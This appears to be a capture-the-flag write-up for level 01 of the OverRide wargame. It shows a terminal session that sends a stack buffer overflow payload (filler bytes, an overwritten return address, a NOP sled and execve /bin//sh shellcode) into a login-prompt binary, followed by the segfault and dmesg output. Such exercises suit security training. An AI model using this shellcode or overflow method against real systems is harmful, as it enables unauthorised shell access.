 # Level 01


level01@OverRide:~$ (python -c 'print("dat_wil" + "\n" + "A" * 16 + "\xf0\xd6\xff\xff" + "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x
69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")'; cat) | /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...


Segmentation fault (core dumped)
level01@OverRide:~$ dmesg | grep segfault
[ 4200.301275] level01[1948]: segfault at 90909090 ip 0000000090909090 sp 00000000ffffd700 error 14
[ 4231.743694] level01[1953]: segfault at 90909090 ip 0000000090909090 sp 00000000ffffd700 error 14
[ 4236.990206] level01[1958]: segfault at 90909090 ip 0000000090909090 sp 00000000ffffd700 error 14